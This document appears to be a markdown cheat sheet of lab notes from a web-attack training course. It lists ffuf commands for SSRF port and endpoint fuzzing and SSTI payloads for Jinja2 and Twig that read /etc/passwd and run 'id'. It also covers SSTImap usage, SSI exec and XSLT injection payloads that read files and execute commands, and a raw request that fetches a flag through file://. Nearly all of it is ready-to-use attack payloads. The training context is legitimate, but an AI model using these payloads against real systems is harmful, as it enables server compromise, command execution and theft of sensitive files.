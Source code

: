 
# Exploiting SSRF

Exploit a SSRF vulnerability to identify an internal web application. Access the internal application to obtain the flag. 

```bash

seq 1 10000 > ports.txt

ffuf -w ./ports.txt -u http://10.129.201.127/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"



```

#


```bash
ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"


```

# Blind SSRF

```bash

ffuf -w ./ports.txt -u http://10.129.81.203/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Something went wrong"


```

# 

```bash
{{7*7}}
tiwg


```

# Exploiting SSTI - Jinja2

```bash

{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}


```

# Exploiting SSTI - Twig

```bash

{{ _self }}


{{ "/etc/passwd"|file_excerpt(1,-1) }}


{{ ['id'] | filter('system') }}


```

# SSTI Tools of the Trade & Preventing SSTI

```bash

git clone https://github.com/vladko312/SSTImap
cd SSTImap
pip3 install -r requirements.txt
python3 sstimap.py 

python3 sstimap.py -u http://172.17.0.2/index.php?name=test

```

# Exploiting SSI Injection

```bash

<!--#printenv -->

<!--#exec cmd="id" -->


``` 

# Exploiting XSLT Injection

```bash

<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />


<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />


<xsl:value-of select="php:function('system','id')" />


```

# Skill 

```bash
POST / HTTP/1.1
Host: 94.237.59.63:31313
Content-Length: 20
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://94.237.59.63:31313
Referer: http://94.237.59.63:31313/index.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: keep-alive

api=file:///flag.txt

```